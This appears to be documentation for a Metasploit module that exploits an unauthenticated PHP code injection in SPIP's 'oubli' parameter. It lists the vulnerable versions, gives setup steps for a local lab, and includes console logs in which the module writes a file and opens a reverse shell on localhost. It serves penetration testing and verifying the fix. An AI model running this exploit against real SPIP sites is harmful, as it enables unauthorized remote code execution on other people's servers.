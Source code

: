 ## Vulnerable Application

This module exploits a PHP code injection in SPIP. The vulnerability exists in
the `oubli` parameter and allows an unauthenticated user to execute arbitrary
commands with web user privileges. Branches 3.2, 4.0, 4.1 and 4.2 are
concerned. Vulnerable versions are <3.2.18, <4.0.10, <4.1.18 and <4.2.1.

The module's `check` method attempts to obtain the SPIP version via a simple HTTP GET request to `/spip.php`
page and fingerprints it either via the `generator` meta tag, or by the
`Composed-By` header.

This module has been successfully tested against SPIP version 4.0.0.

## Setup

On Ubuntu 20.04, download a vulnerable instance of SPIP:

```
wget https://files.spip.net/spip/archives/spip-v4.2.0.zip
```

Unzip it to a specific folder:

```
mkdir spip-site 
cp spip-v4.2.0.zip spip-site/ 
cd spip-site / 
unzip spip-v4.2.0.zip
```

Install php and the necessary extensions:

```
sudo apt install -y php-xml php-zip php-sqlite3
```

Serve the application (while in the newly created spip-site directory):

```
php -S 127.0.0.1:8000
```

Navigate to the following URL, select `sqlite` for the database, and complete the installation:

```
http://127.0.0.1:8000/ecrire/
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/unix/webapp/spip_rce_form`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options
### TARGETURI
The base path to PIP. The default value is `/`.

## Targets

### 0 (Linux Dropper)

This uses a Linux dropper to execute code.

### 1 (Unix Command)

This executes a Unix command.

## Scenarios
### SPIP 4.0.0 - Linux target - PHP In-Memory
```

Module options (exploit/unix/webapp/spip_rce_form):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to SPIP application
   VHOST                       no        HTTP server virtual host


Payload options (php/exec):

   Name  Current Setting       Required  Description
   ----  ---------------       --------  -----------
   CMD   touch /tmp/pwned.txt  yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
=>  0   Automatic (PHP In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/spip_rce_form) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.0.0
[+] The target appears to be vulnerable.
[*] Got anti-csrf token: fDBVRjMENBhztAcYFvRr+49sl+fSbkKWDtcOmHtIo0Ta5iJ1MNTCax9uYvLZYlhtD77tZ0TcgnhyRwE=
[*] 127.0.0.1:8080 - Attempting to exploit...
[*] Exploit completed, but no session was created.

-rw-rw-rw- 1 jvoisin jvoisin 0 Feb 28 20:45 /tmp/pwned.txt
msf6 exploit(unix/webapp/spip_rce_form) > 
```

### SPIP 4.0.0 - Linux target - UNIX In-Memory

```
msf6 exploit(unix/webapp/spip_rce_form) > options 

Module options (exploit/unix/webapp/spip_rce_form):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to SPIP application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_openssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  localhost        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Unix In-Memory)


View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/spip_rce_form) > set payload cmd/unix/reverse_openssl
payload => cmd/unix/reverse_openssl
msf6 exploit(unix/webapp/spip_rce_form) > run

[!] You are binding to a loopback address by setting LHOST to ::1. Did you want ReverseListenerBindAddress?
[*] Started reverse double SSL handler on ::1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.0.0
[+] The target appears to be vulnerable.
[*] Got anti-csrf token: fDBVRjMENBhztAcYFvRr+49sl+fSbkKWDtcOmHtIo0Ta5iJ1MNTCax9uYvLZYlhtD77tZ0TcgnhyRwE=
[*] 127.0.0.1:8080 - Attempting to exploit...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo v5zOS2N6c977VY0X;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "v5zOS2N6c977VY0X\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (::1:4444 -> ::1:38048) at 2023-04-10 21:30:25 +0200
^Z
Background session 1? [y/N]  y
msf6 exploit(unix/webapp/spip_rce_form) > sessions -i 2 -c whoami
[*] Running 'whoami' on shell session 2 (127.0.0.1)
jvoisin

msf6 exploit(unix/webapp/spip_rce_form) >
```
